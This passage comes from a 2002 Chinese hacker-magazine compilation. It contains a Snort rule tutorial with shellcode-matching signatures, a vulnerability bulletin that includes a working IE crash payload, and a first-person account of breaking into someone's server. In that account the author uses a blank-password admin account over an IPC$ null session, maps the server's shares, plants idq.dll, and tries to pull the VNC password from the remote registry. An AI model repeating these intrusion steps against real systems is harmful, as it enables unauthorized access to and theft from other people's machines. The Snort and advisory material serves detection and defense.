# 黑客防线2002合订本（三）第二部分

---

```
{
    type alert output
    alert_syslog: LOG_AUTH LOG_ALERT
    output database: log, mysql, user=snort
    dbname=snort host=localhost
}
```

## 2. 协议

规则的下一栏是协议。Snort 当前分析四种协议的行为：TCP, UDP, ICMP 和 IP。在将来可能会更多，像 ARP, IGRP, GRE, OSPF, RIP, IPX 等等。

## 3. IP 地址

规则头的下一部分是规则处理 IP 地址和端口信息。关键字“any”是定义任何地址的。Snort 没有机制在规则文件中提供 IP 地址查询主机名。地址被明确的使用为数字 IP 地址形式和 CIDR block。CIDR block 表示子网掩码应用于规则地址和任何进入的包在被规则测试之前。一个 CIDR block 掩码为 /24 表示是一个 C 类网络，/16 是一个 B 类网络，/32 表示特殊的机器地址。例如，地址/CIDR 组合 192.168.1.0/24 表示一个地址段 192.168.1.1 到 192.168.1.255。任何规则都那样表示地址，比如说，目的地址希望匹配任何地址范围，CIDR 则可以仅仅只使用几个字符就迅速的标示出一大段地址空间。

在例 1 中，源 IP 地址被设置为匹配任何计算机地址。目的地址设置为匹配 192.168.1.0 这个 C 类网络。

否定操作应用在这些 IP 地址上。这个操作告诉 Snort 除去指定的 IP 地址之外匹配任何地址。否定操作用“!”表示。例如，

```
alert tcp !192.168.1.0/24 any -> 192.168.1.0/24 111
    (content: "|00 01 86 a5|"; msg: "external mountd access";)
```
例4: Example IP Address Negation Rule

这个 IP 地址规则表示“任何源 IP 地址非来自 Internet 网络和目的地址在 Internet 网络的 tcp 包”。

同样你也可以具体指定 IP 地址列表。两个 IP 列表之间用逗号分开，IP 地址和 CIDR 用方括号围住。目前，两个 IP 列表之间不能包含空格。例 5 是一个 IP 列表动作。

```
alert tcp ![192.168.1.0/24,10.1.1.0/24] any ->
    [192.168.1.0/24,10.1.1.0/24] 111 (content: "|00 01 86 a5|";
    msg: "external mountd access";)
```
例5: IP Address Lists

## 4. 端口号

明确地讲，端口号有许多种类型，包括“Any”端口，定义静态端口，范围端口(ranges)，和非类型。“Any”端口是表示任何端口。静态端口表示单个端口号，像 111 端口(portmapper)，23 端口 (telnet) 或 80 端口(http)等等。端口范围用“:”指定一段端口的范围。指定端口范围可以应用在含有大量端口的操作。像例 6。

```
log udp any any -> 192.168.1.0/24 1:1024
# log udp traffic coming from any port and destination ports ranging from 1 to 1024
log tcp any any -> 192.168.1.0/24 :6000
# log tcp traffic from any port going to ports less than or equal to 6000
log tcp any :1024 -> 192.168.1.0/24 500:
# log tcp traffic from privileged ports less than or equal to 1024 going to ports greater than or equal to 500
```
例6: Port Range Examples

端口否定指定使用否定操作符号“!”。否定操作可以应用于任何规则类型上。例如，如果想要记录下任何端口的信息，只除了 X Windows 端口不记录，你可以使用例 7 这样的规则。

```
log tcp any any -> 192.168.1.0/24 !6000:6010
```
例7: Example of Port Negation

## 5. 方向操作(The Direction Operator)

方向操作符号“->”表示规则应用传输的方向。IP 地址和端口号码在方向操作符号的左边就是传输进来的源地址。端口号和 IP 地址在方向操作符号的右边则是目的地址。他们还有双向操作，双向操作符号是“<>”。这个符号告诉 Snort 考虑两边的 IP 地址和端口任意一个都是源地址或目的地址方向。它记录和分析两边的会话，像 telnet 或 POP3 会话。例 8 就是一个记录双向操作的例子，记录了 Telnet 两边的会话情况。

```
log tcp !192.168.1.0/24 any <> 192.168.1.0/24 23
```
例8: Snort rules using the Bidirectional Operator

## 6. 动态 / 激活规则

动态和激活规则是分阶段有效的。在今后的 Snort 版本中，动态和激活将被改进的功能完全替换。

Snort 配合动态规则具有强大的性能。你现在可以得到一个规则激活，设置当动作触发时包的数量。这非常有用，比如你想设置在完成特殊规则的时候启动 Snort 的记录工作。激活规则仅仅像警报规则，除非他们有一个 *required* 选择字段: “activates”。动态规则就像日志规则一样，但他们有不同的选择字段: “activated_by”。动态规则也需要第二个字段 “count”。

激活规则仅仅像警报那样，但另外当出现一个特殊的网络事件的时候告诉 Snort 激活一个规则。动态规则仅仅像日志规则那样，除了触发动态规则时激活规则就会被启用。

把它们放到一起来看看例 9:

```
activate tcp !$HOME_NET any -> $HOME_NET 143 (flags: PA;
content: "|E8C0FFFFFF|bin|; activates: 1;
msg: "IMAP buffer overflow!";)
dynamic tcp !$HOME_NET any -> $HOME_NET 143 (activated_by: 1; count: 50;)
```
例9: Activate/Dynamic Rule Example

这个规则告诉 Snort 当检测到一个 IMAP 缓冲区溢出和收集后面来自 $HOME_NET 到 $HOME_NET 的 143 端口 50 个数据包并且发生警报。如果缓冲区溢出成功了，之后的 50 个数据包中非常有可能包含有用的数据通过相同的服务端口发往网络，所以需要收集那些数据包的值今后分析。

# 三、规则选项

规则选项构成 Snort 入侵监测引擎的心脏，结合了效率和灵活性。所有的 Snort 规则选项彼此使用分号 “;” 分开。规则选项的关键字用冒号 “:” 分开。

## 可以使用的关键字

msg prints a message in alerts and packet logs / 打印警报和日志信息
logto 记录包到用户指定的文件中代替标准输出文件

| 关键字 | 说明 |
|---|---|
| msg | prints a message in alerts and packet logs / 打印警报和日志信息 |
| logto | 记录包到用户指定的文件中代替标准输出文件 |
| ttl | 测试IP头的 TTL字段值 |
| tos | 测试IP 头的 TOS字段值 |
| id | 测试IP 头碎片 ID 特殊值 |
| ipoption | 检查 IP 选项字段绝对代码 |
| fragbits | 测试IP 头碎片大小 |
| dsize | 测试包载荷的大小 |
| flags | 测试 TCP 固定标志位值 |
| seq | 测试 TCP 序列号字段特殊值 |
| ack | 测试TCP acknowledgement字段特殊值 |
| itype | 测试 ICMP 类型字段的特殊值 |
| icode | 测试 ICMP 代码字段特殊值 |
| icmp_id | 测试 ICMP ECHO ID 字段特殊值 |
| icmp_seq | 测试 ICMP ECHO 序列号特殊值 |
| content | 查找包载荷模式 |
| content-list | 查找包载荷设置模式 |
| offset | 修改选项内容，设置开始匹配模式的 offset |
| depth | 修改选项内容，设置匹配攻击模式的最大查找深度 |
| nocase | 使用不敏感查找匹配以前的内容串 |
| session | 显示应用层会话信息 |
| rpc | 关注 RPC 服务的特殊应用程序调用 |
| resp | 主动反应（切断连接等） |
| reference | 外部攻击参考 ids |
| sid | Snort 规则 id |
| rev | 规则修订号 |
| classtype | 规则分类标示符 |
| priority | 规则严格标示 |
| uricontent | 用 URI 模式查找包 |
| tag | 规则高级日志动作 |
| ip_proto | IP 头协议值 |
| sameip | 如果源 IP 和目的 IP 相同就终止 |
| stateless | 流状态有效 |
| regex | wildcard 匹配模式 |

### 1. Msg

Msg 规则选项告诉日志和警报引擎打印包和警报。它只用双引号 `""` 作为文本串换码符指定分离的字符，如果不那样 Snort 的分析程序就会发生混乱（像分号 “; ” ）。

格式

```
msg: "<message text>";
```

### 2. Logto

触发这个规则，Logto 选项告诉 Snort 记录所有的包输出到指定输出的日志文件。这样特别方便合并数据，像 NMAP 动作，HTTP CGI 扫描等。当 Snort 以二进制模式记录日志那么这个选项将不能工作。

格式

```
logto: "<filename>";
```

### 3. TTL

这个规则选项用于设置特殊的 time-to-live 值测试比较。这种测试只能成功的工作在精确匹配。这个关键字选项的目的是为了察觉 traceroute 攻击。

格式

```
ttl: "<number>";
```

### 4. TOS

“tos” 关键字允许你检查 IP 头 TOS 字段的特殊值。这种测试只能工作在精确模式。

格式

```
tos: "<number>";
```

### 5. ID

使用这个关键字选项精确匹配 IP 头 fragment ID 字段的测试。有些黑客工具设置这个字段为特殊值有不同的目的，例如 31337 值在一些黑客当中非常流行。只需加入一些简单的规则就能测试某些“黑客号码”。

格式

```
id: "<number>";
```

### 6. Ioption

如果数据包中使用了 IP 选项，Ioption 选项会查找使用中的某个特别 IP 选项，比如源路由。这个选项的合法参数如下：

- rr - Record route (记录路由)
- eol - End of list (列表结尾)
- nop - No op (无所作为)
- ts - Time Stamp (时间戳)
- sec - IP security option (IP 安全选项)
- lsrr - Loose source routing (松散源路由)
- ssrr - Strict source routing (严格源路由)
- satid - Stream identifier (流标示符)

松散和严格源路由是IP选项中最经常被检查的内容，但是它们并没有被用在任何广泛使用的 Internet 应用中。每一个特定的规则只能用这个选项一次。

格式:

```
ipopts: <option>;
```

### 7. Fragbits

这个规则检查 IP 头碎片和保留位。有三个位要被检查，Reserved Bit(RB), More Fragments (MF) bit, 和 Don't Fragment (DF) bit。检查那些位各种各样的结合。使用下面的值指定位：
- R - Reserved Bit
- D - DF bit
- M - MF bit

你同样可以修改逻辑标识匹配指定位：

- + - ALL flag, 匹配指定位加号
- * - ANY flag, 匹配任何设置的指定位
- ! - NOT flag, 匹配没有被设置的指定位

格式

```
fragbits: <bit values>;
alert tcp !$HOME_NET any -> $HOME_NET any
(fragbits: R+;
    msg: "Reserved IP bit set!";)
```
例 10: Example of fragbits detection usage

### 8. Dsize

Dsize 选项用来测试包载荷大小。它能设置任何值，还可以使用大于/小于符号表示范围限制。例如，如果你知道某些服务的缓冲区的大小，你能设置这个选项关注缓冲区溢出攻击。它的优点是测试缓冲区溢出的速度比载荷内容检测要快的多。

格式

```
dsize: [>|<] <number>;
Note: The > and < operators are optional!
```

### 9. Content

关键字 content 是 Snort 的一个更重要的特点。它允许用户设置规则在包载荷和基于触发反应的内容中查找数据。每当 content 选项模式匹配工作的时候，就调用 Boyer-Moore 模式匹配功能和对包内容进行比较。这个规则选项能成功的在包载荷中按精确匹配模式查找字符串内容。那样的检测也是区分大小写的。

关键字 content 的选项数据有点复杂；它可以包含文本格式和二进制数据。二进制数据通常用管道("|")围住来代表二进制数据。可以用十六进制来描述二进制是一种很好而且快速的方法。例 11 的 Snort 规则中含有文本和二进制数据。

注意：一个特殊的规则可以有多个 content 规则。它允许定制规则减小误报。

另外要注意下面的字符必须不能存在 content 规则里：

- |
- :
- "

如果规则前面有一个!，那么包中不包含内容将触发警报。当写一个想要不匹配某些模式的规则，那是有用的。

格式

```
content: [!] "<content string>";
alert tcp any any -> 192.168.1.0/24 143 (content:
"|90C8 C0FF FFFF|/bin/sh";
    msg: "IMAP buffer overflow!";)
```
例11: Mixed Binary Bytecode and Text in a Content Rule Option

```
alert tcp any any -> 192.168.1.0/24 21 (content: !
"GET"; depth: 3; nocase;
    dsize: >100; msg: "Long Non-Get FTP command! ";)
```
例12: Negation Example

### 10. Offset

Offset 规则选项被用作使用 Content 规则选项关键字的规则修饰符。它对于 cgi 扫描检测规则很有用，cgi 扫描的内容搜索字符串不会在载荷的前 4 个字节中出现。小心不要把这个偏移量设置的太严格了，会有可能漏掉攻击！这个规则选项关键字必须和 Content 规则选项一起使用。

格式

```
offset: <number>;
```

### 11. Depth

depth 也是一个 content 规则选项修饰符。它设置了内容模式匹配函数从他搜索的区域的起始位置搜索的最大深度。它对于限制模式匹配函数超出搜索区域指定范围而造成无效搜索很有用。(也就是说，如果你在一个 Web 包中搜索 “cgi-bin/phf”，你可能不需要浪费时间搜索超过载荷的头 20 个字节) 例 13 结合了 content, offset 和 depth search 规则。

格式

```
depth: <number>;
alert tcp any any -> 192.168.1.0/24 80 (content:
"cgi-bin/phf";
    offset: 3; depth: 22; msg: "CGI-PHF access";)
```
例13: Combined Content, Offset and Depth Rule

### 12. Nocase

nocase 选项用于取消 content 规则中的大小写敏感性。它在规则中指定后，任何与包载荷进行比较的 ASCII 字符都被既作为大写又作为小写对待。

格式

```
nocase;
alert tcp any any -> 192.168.1.0/24 21 (content:
"USER root";
    nocase; msg: "FTP root user access attempt";)
```
例14: Content rule with nocase modifier

### 13. Flags

这个规则选项引用 TCP 标志位 (flags)。基本上，它探测一个包是否有一个静态的标志位集，因此很少用。它是为了完整性而包含进来的。

| 标志 | 说明 |
|---|---|
| F | FIN (LSB in TCP Flags byte) |
| S | SYN |
| R | RST |
| P | PSH |
| A | ACK |
| U | URG |
| 2 | Reserved bit 2 |
| 1 | Reserved bit 1 (MSB in TCP Flags byte) |
| 0 | No TCP Flags Set |

另外为了指定匹配标志位可以使用逻辑运算符。

- + ALL flag, match on all specified flags plus any others
- * ANY flag, match on any of the specified flags

### 14. Seq

这个规则选项引用 TCP 序列号 (sequence number)。它检测数据包设置了的静态序列号，因此它很少被使用。

> 格式
seq: <number>;

### 15. Ack

ack 规则选项关键字引用 TCP 头的确认 (acknowledge) 部分。这个规则的一个实用的目的是：检查 nmap tcp ping, nmap tcp ping 把这个域设置为 0，然后发送一个 tcp ack flag 置位的包来确定一个网络主机是否活着。例 16 这个规则可以探测到这种活动。

> 格式
ack: <number>;
alert any any -> 192.168.1.0/24 any (flags: A; ack: 0; msg: "NMAP TCP ping";)

例 15: Sample TCP Flags Specification

例 16: TCP ACK Field Usage

### 16. Itype

这条规则测试 ICMP 的 type 字段的值。它被设置为使用这个字段的数字值。要得到所有可能取值的列表，可以参见 Snort 包中自带的 decode.h 文件，任何 ICMP 的参考资料中也可以得到。应该注意的是，type 字段的取值可以超过正常范围，这样可以检查用于拒绝服务或 flooding 攻击的非法 type 值的 ICMP 包。

> 格式
itype: <number>;

### 17. Icode

Icode 规则选项关键字和 itype 规则非常接近，在这里指定一个数值，Snort 会探测使用该值作为 code 值的 ICMP 包。超出正常范围的数值可用于探测可疑的流量。

> 格式
icode: <number>;

(未完待续)

(上接 90 页)

后，就会马上用红色的显示来报警（图 15）。上



图 15

面拓扑结构中用红色显示的计算机就是被发现有服务停止了响应状态。利用 Network Supervisor 网络管理软件，管理人员能够轻松地对网络所承受的流量压力进行监控、设定极限与告警、观察网络事件、以用户所要求的格式生成监测报告并运行各类设备配置工具。

这个软件的自动探测功能具有非常重要的作用，而第二层网络视图功能也为我们从网络整体的角度了解网络设备之间的关系提供了帮助。由于管理过程是通过一套“基于事件触发的”系统来完成，而不是通过询问的方式来实现的，因而利用 3Com 公司这套软件的解决方案对大量的网络节点进行监控已经变成了一项高效率、高灵活性的工作，极大地减轻了网络管理人员的负担。

# 漏洞公告板

## 微软安全公告 MS02-035

**涉及程序：**
Microsoft SQL 7, MSDE 1.0, and Microsoft SQL Server 2000

**介绍：**
SQL Server 及 Service Packs 安装时口令文件泄露缺陷

**漏洞内容：**
在安装 Microsoft SQL Server 或 SQL Server Service Packs 时，一些被建立的重要文件由于没有被正确删除，将会导致严重的信息泄露问题。因为这些文件常常是含有像用户、账号名，口令等敏感信息。

如在安装完 SQL Server 或在后来安装 SQL Server Service Packs 后，一个或多个 setup.iss 文件的拷贝经常没有被用户及时删除。

如果 SQL Server 被设置以混合模式进行验证，则用于安装程序的登陆帐号和口令是保存在 setup.iss 文件中。

如果 SQL Server Service 是设置运行在一个 Windows 用户账号下，而不是在系统安装时的系统账号下，则 Windows 用户账号和口令也是存储在 setup.iss 文件中。

安装时建立的两个 setup.iss 文件的拷贝存储在哪个目录下，依赖于 SQL Server 的版本。但是 setup.iss 文件通常是被建立在以下目录中：
- %windir%
- %sqlserverinstance%\install

在 %windir% 目录下建立的拷贝文件将 “Full Control” (完全控制) 权限分配给了 “Everyone”，另外一个目录下的拷贝文件的权限被严格限制了，而这些口令进行编码时，使用的是一弱加密算法，很容易就能被破解。这样几乎任何能够访问 setup.iss 文件的用户，都能对口令进行解码，从而获得对 SQL Server 的未授权访问。

**受影响系统：**
Microsoft SQL 7, MSDE 1.0, and Microsoft SQL Server 2000

**解决方案：**
Microsoft SQL 7, MSDE 1.0, and Microsoft SQL Server 2000:
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=40205

**临时解决方案：**
在安装完 SQL Server 或 Service Pack 后立即将敏感文件 setup.iss 删除（如果不删除 setup.iss 文件，更改口令可能会照样因为这个漏洞暴露口令）。

### Squid FTP目录解析远程缓冲区溢出漏洞

**涉及程序：**
National Science Foundation Squid Web Proxy 2.4STABLE6 及以前所有版本

**介绍：**
Squid FTP 目录解析远程缓冲区溢出漏洞

**漏洞内容：**
Squid 是一款免费开放源代码 WEB 代理软件，可使用在 Unix、Linux、Microsoft Windows 操作系统下。Squid FTP 代理在解析 FTP 目录列表时存在多个漏洞，远程攻击者可以利用这些漏洞进行缓冲区溢出攻击。Squid FTP 代理在处理 FTP 目录列表代理请求时存在多个缓冲区溢出问题，远程攻击者可能利用这些漏洞以 Squid 进程的权限在系统上执行任意指令。

**受影响的系统：**
National Science Foundation Squid Web Proxy 2.4STABLE6 及所有以前版本

**不受影响系统：**
National Science Foundation Squid Web Proxy 2.4STABLE7

## Windows 2000 和 XP 中 IE 的拒绝服务缺陷

**介绍：**
Windows 2000 和 XP 中 IE 的拒绝服务缺陷

**漏洞内容：**
在 Windows 2000 和 Windows XP 操作系统的 IE 浏览器中被发现存在一个拒绝服务漏洞，攻击者如果成功利用此漏洞的话，将会导致 IE 浏览器的崩溃。如攻击者可以构建在 object 标记中包含恶意 CLASSID 值的页面，当 IE 用户浏览的时候，导致 IE 浏览器崩溃。

当用户遭到攻击后，如果还能够通过停止浏览器的使用，以恢复其它正常的操作，则只要重启即可恢复正常。也正因为如此，所以微软根据他们的策略(http://www.microsoft.com/technet/treeview/default.asp?url=/TechNet/columns/security/vulnrbl.asp)没有把它定义为一个标准的安全漏洞。

### 攻击方法：
```html
<!-- start dosIE-doe.html -->
<object ID="dosIE-doe"
CLASSID="CLSID:00022613-0000-0000-C000-000000000046" </object>
<!-- end dosIE-doe.html -->
```

### 临时解决方案：
- 1. 不要浏览不可信站点；
- 2. 遭到攻击后立即重启。

### Sendmail DNS 映射TXT记录远程缓冲区溢出(Linux,补丁)

**涉及程序：**
Sendmail

**介绍：**
Sendmail DNS 映射TXT记录远程缓冲区溢出

**漏洞内容：**
Sendmail 是一款运行在多种 Unix 和 Linux 操作系统下的源代码开放的免费邮件传输代理服务程序。Sendmail 在处理 DNS 部分代码时由于没有很好地检查名字服务器返回的数据，可导致远程攻击者利用这个漏洞进行缓冲区溢出攻击，并可能以 Sendmail 进程的权限在系统上执行任意指令。

Sendmail 由于在尝试使用 TXT 查询类型映射地址的时，没有很好地检查由名字服务器返回的数据，攻击者可以伪造名字服务器返回信息发送超长字符串给邮件服务器，导致 Sendmail 产生缓冲区溢出，精心构建返回数据可能以 Sendmail 进程的权限在系统上执行任意命令。

这个漏洞由于此部分处理代码没有被任何默认 Sendmail 配置所使用，所以风险等级比较低。

**受影响系统：**
Sendmail 8.12.5 以前的所有版本

### Netware FTP远程拒绝服务攻击漏洞

**受影响的系统：**
Novell Netware FTP server Netware 6.0 verified SP 1 + NW

**漏洞内容：**
Netware FTP 是一款 Novell 公司开发的 FTP 服务器程序，使用在 Netware 操作系统下。Netware FTP 服务程序对用户提交的用户名字段数据缺少过滤，远程攻击者可能利用此漏洞进行格式串攻击。

攻击者可以提交包含格式字符串的数据作为用户名输入，可导致服务模块崩溃，FTP 服务程序需要重新启动恢复正常功能，精心构建格式字符串可能导致攻击者以 FTP 进程在系统上执行任意指令。

## Windows 发布媒体播放器补丁集

**涉及程序：**
Windows Media Player

**漏洞内容：**
微软发布 MS02-032 号安全公告，公布了一个媒体播放器补丁集。该补丁含有 Windows Media Player 6.4, 7.1 和 Windows Media Player for Windows XP 以前的所有补丁功能。并且，它弥补了三个新发现的漏洞：
- 1. 利用 Windows Media Player 的一个信息泄露漏洞，攻击者能通过某种途径在用户系统上执行任意代码，该漏洞非常危险。
- 2. 能物理访问 Windows 2000 机器的攻击者利用 Windows Media Player 的一个特权提升漏洞，可以取得系统管理员权限。
- 3. 如果用户播放一种特殊构造的媒体文件，然后浏览一个特殊构造的 Web 页面，可能在没有任何提示下运行攻击者脚本代码。但该漏洞非常难于利用。

**受影响系统：**
- Microsoft Windows Media Player 6.4
- Microsoft Windows Media Player 7.1
- Microsoft Windows Media Player for Windows XP

# 我是如何进入取消默认共享主机的

文/王亮

一天晚上，我在网上准备找一些可读性强的技术文章，但有几个不错的网络安全网站又不知什么原因关闭了。找不到什么好文章，这样我就自己找一台服务器练习一下，因为这样也能学到不少技术。于是我翻了翻以前保存下来的扫描结果，看到有一台服务器账号较多，共有 400 多个，其中有个 stone 账号的密码为空 (Admin 权限)。看来网管没有开置密码策略，好，就选这台服务器做为试验对象。先 Ping 一下，看看这台服务器是否存在 (服务器 IP 地址以 x.x.x.x 替代表示)

```
E:\>ping x.x.x.x
Pinging x.x.x.x with 32 bytes of data:
Reply from x.x.x.x: bytes=32 time=381ms TTL=110
Reply from x.x.x.x: bytes=32 time=320ms TTL=110
Reply from x.x.x.x: bytes=32 time=321ms TTL=110
Reply from x.x.x.x: bytes=32 time=320ms TTL=110
Ping statistics for x.x.x.x:
Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
Minimum = 320ms, Maximum = 381ms, Average = 335ms
```

好了，以下就不多说了，ipc$ 入侵教程多得是，大家一看就明白。

过程如下:

```
E:\>net use \x.x.x.x\ipc$ "" /user:stone
命令成功完成。
E:\>dir \x.x.x.x\c$
找不到网络名。
```

网管在这方面倒还有点安全意识，把 winnt 的所有默认共享全去掉了。这反而激发了我的兴趣。现在的情况是获得了一个 Admin 的账号，但是却没有一个默认的可写目录和根目录，所以不能用常规的方式进一步获取资源了。不过希望还是有的!接下来我自己寻找可写目录，查查看网管自己有没有设置共享资源吧。如下:

```
E:\>dir \x.x.x.x\admin$
找不到网络名。
E:\>dir \x.x.x.x\d$
找不到网络名。
E:\>dir \x.x.x.x\E$
找不到网络名。
............
```

```
E:\>net view \x.x.x.x
在 \x.x.x.x 的共享资源
资源共享名        类型  用途 注释
ADHot             Disk
APPL              Disk
DATABASE          Disk
demo_1            Print  \Demo\demo_1
HPLJ5si           Print  HP LaserJet 5Si
HPlp1             Print  HP LaserJet 5Si (Linux Shared)
IED               Disk
InetPub           Disk
internal          Disk
NETLOGON          Disk   登入伺服器资源分享
SALES             Disk
sharing           Disk
temp              Disk
visio             Disk
工程 DownLoad 资料库 Disk
业务 DownLoad 资料库 Disk
雅迈 y2k           Disk
命令成功完成。
```

太棒了，有这么多共享目录，看来这是一台工作服务器，是为了内部网里的工作需要设定了相应的共享资源。我们接下来映射共享硬盘吧，从 Inetpub 开始，这是 Win NT/2K 默认的存放主页的地方，它都共享了，真是最好不过了，许多漏洞都和它有关。我的利用过程如下：

```
E:\>net use g: \x.x.x.x\Inetpub
命令成功完成。
```

OK!现在为了方便，把当前的本地硬盘切换到虚拟映射的硬盘吧。再随便看看这个共享目录有没有对 stone 账号开放写入权限。随便创建一个目录，我创建了个 xhacker 目录，如下：

```
D:\>g:
G:\>md xhacker
G:\>dir
  驱动器 G 中的卷没有标签。
  卷的序列号是 6803-C297
  G:\ 的目录

2002-06-14  21:37    <DIR>          .
2002-06-14  21:37    <DIR>          ..
2002-06-06  18:04    <DIR>          ASPSamp
2000-04-14  04:28              2,940 c.txt
2002-06-14  17:59    <DIR>          Catalog.wci
2002-06-14  20:37    <DIR>          ftproot
1998-11-11  11:27    <DIR>          gophroot
2001-11-26  10:07    <DIR>          iissamples
2000-01-04  14:22    <DIR>          mail
2000-01-04  14:26    <DIR>          Mailroot
2002-06-14  11:14    <DIR>          scripts
2000-04-14  04:27                 26 Test.bat
2001-02-02  13:29    <DIR>          wwwroot
2002-06-14  21:37    <DIR>          xhacker (就是这个，我才创建的)
      2 个文件      2,966 字节
     12 个目录 706,426,880 可用字节
```

看到了吗？呵呵，这下可好了。有希望拿 admin。再看看 scripts 里内容再说吧。过程如下：

```
G:\>dir scripts
  驱动器 G 中的卷没有标签。
  卷的序列号是 6803-C297

G:\scripts 的目录

2002-06-14  11:14    <DIR>          .
2002-06-14  11:14    <DIR>          ..
2002-06-14  11:14    <DIR>          iisadmin
      0 个文件          0 字节
      3 个目录 706,426,880 可用字节
```

怎么会没有？没关系，再看看 wwwroot，这也是经常存放主页的地方：

```
G:\>dir wwwroot
  驱动器 G 中的卷没有标签。
  卷的序列号是 6803-C297

G:\wwwroot 的目录

2001-02-02  13:29    <DIR>          .
2001-02-02  13:29    <DIR>          ..
1998-02-24  13:04              4,630 default.asp
1996-11-26  00:00              3,685 default.htm
2002-06-13  21:43    <DIR>          demotop
2000-05-25  09:49             23,155 e.htm
2000-01-04  16:40              2,890 Home.htm
1999-12-30  15:28    <DIR>          images
2000-06-01  15:32              8,143 index.htm
2001-11-26  10:07    <DIR>          Phone Book Service
2001-05-30  00:28    <DIR>          recovery
2000-05-25  09:50              6,689 Weekly.htm
1999-12-30  15:28    <DIR>          _private
2000-01-04  14:29    <DIR>          _vti_log
………（略）
     16 个文件 106,073 字节
      8 个目录 706,426,880 可用字节
```

看上去这里好像是存放主页的目录了。习惯性地放了个 idq.dll 上去（提升权限），IPC$ 连不上，我还以为这就能拿到了 admin 呢。看来没有开放虚拟目录执行权限啊。这时，我想到了浏览主页。晕倒，404 错误，找不到。不知是不是没配置好 IIS，看来利用 Admin 账号连接 IPC 获取最高控制

# CASE ANALYSIS 案例
栏目编辑>Heihoo>heihoo@hacker.com.cn

权的想法已经不行了(在这里,我也虚拟了好几个共享资源,尝试找到可利用资源,比如口令文件等,根本找不到什么重要的)。本以为有一个现成的 admin 账号就能拿到它了,现在看没这么简单,我们还是分析一下服务器开了哪些服务再找突破口吧。

x.x.x.x 的端口信息:

```
* + x.x.x.x adsl-61-56-234-146.NHON.sparqnet.net
|__21 File Transfer Protocol [Control] (可以尝试破解并登录,但不推荐)
|__220 demont Microsoft FTP Service (Version 4.0)...
|__53 Domain Name Server
|__80 World Wide Web HTTP (扫描 cgi,iis 漏洞,不过好像 iis 工作不正常)
|__ HTTP/1.1 404 ............Server: Microsoft-IIS/4.0..Date: Fri, 14 Jun 2002 15:19:05 GMT..Content-Type: text/html..Content-Length
|__ 135 DCE endpoint resolution
|__ 139 NETBIOS Session Service
|__ 443 https MCom
|__ 5005 avt-profile-2
|__ 5800 Virtual Network Computing server
|__ 5900 Virtual Network Computing server (VNC 服务,考虑这个登录)
|__ RFB 003.003.
|__ 8000 iRDMI/Shoutcast Server:
```

呵呵,现在我主要可利用入侵的服务有 21,80,5900,由此判断出这是一台 Win NT+IIS4.0,而之前我没有进行扫描端口,完全想着用现成 admin 权限的 stone 账号进入。这样,对方即使开了 www 服务,我的那个 idq.dll 也是没用的,idq.dll 只对 Win2K+SP3 以下有效,所以应该放置一些 Win NT 相关的 IIS 漏洞,比如放一个 bat 文件放入 scripts 去拿 admin。可是这台服务器的 www 没有设定好,无法通过浏览器调用文件。

下面再接着分析吧。大家可能对这个 5900 端口了解的不多,我现在就先从 5900 开始刺探。这里我简单对 5900(VNC 远程控制软件所开的端口)介绍几句。VNC——Virtual Network Computing (即虚拟网络计算机系统)是由 AT&T 开发的各种操作系统之间的相互操作管理系统,使用 VNC 可以使你在不同的计算机之间实现真正的相互操作。

不过,VNC 只限于 GUI 之间的相互操作,如 Windows 同 Linux 系统的 X Window 之间相互操作,Windows 同 Macintosh 之间的相互操作等,它可以安装在 Windows 中而让使用者在远端遥控自己的电脑,就算是遥控不同的操作平台也没有问题 (Win NT 远程管理服务软件主要就是 Win2K3389,Pcanywhere,VNC,Remote Administrator 等等)。现在有了这个思路,因为 VNC 的密码就在注册表 \HKEY_CURRENT_USER\Software\ORL\WinVNC3\Password 键值或者是 \HKEY_USERS\.DEFAULT\Software\ORL\WinVNC3\Password 键值里。我们先读出这个键值后,再用相应算法解出来,就是 VNC 的远程管理密码了。于是我重建了 ipc$ 空连接,接着打开 Regedit 注册表编辑器,选择“连接远程注册表”,输入 IP 地址 x.x.x.x,好了,出现了图 1 所示界面。


图 1

出现了三个键值,然后查找 VNC 的密码键值。从 HKEY_USERS 主键找好了。非常遗憾,没有找到 password 键值。看来新版 VNC 出于安全考虑,把这个主键的密码去掉了,新版的 VNC 软件的密码键值存放在 HKEY_CURRENT_USER 主键中,但即使有个 admin 账号,在远程也读不出这个主键。这样,通过 VNC 来入侵的思路又断了。真不好办。接着又想了不少办法,其中也不乏有巧妙的,比如在 HKEY_CLASSES_ROOT 改变某文件关联,指其关联指向我预先在 Inetpub 放置的一个捆绑文件默认关联程序的木马,其实这种方法实际上有可能成功,但是需要时间去等待,所以我还是放弃了这种被动的手段。

